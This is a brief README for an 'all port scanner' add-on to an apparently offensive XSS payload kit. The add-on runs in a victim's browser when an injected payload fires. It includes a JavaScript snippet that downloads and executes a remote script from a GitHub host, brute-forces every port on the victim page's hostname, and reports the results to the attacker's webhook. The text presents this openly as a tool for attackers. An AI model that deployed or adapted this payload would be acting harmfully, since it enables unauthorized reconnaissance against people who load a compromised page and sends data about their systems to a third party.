 # All port scanner
This extension allows attacker to scan all 65535 ports running HTTP(S) service on payload fire

# Usage
Uncomment from line number 180 to 182, which contains the following code:-
```javascript
$.getScript('https://raw.githubusercontent.com/shriyanss/payload-pro/main/addons/all_port_scanner/all_port_scanner.js', function (){
    scan_all_ports(document.location.hostname);
});
```

# Functioning
The function `scan_all_ports()` takes the hostname (`document.location.hostname`) as input and does bruteforcing

# Webhook
It uses same webhook for the main port scanner (that scans user specified ports)
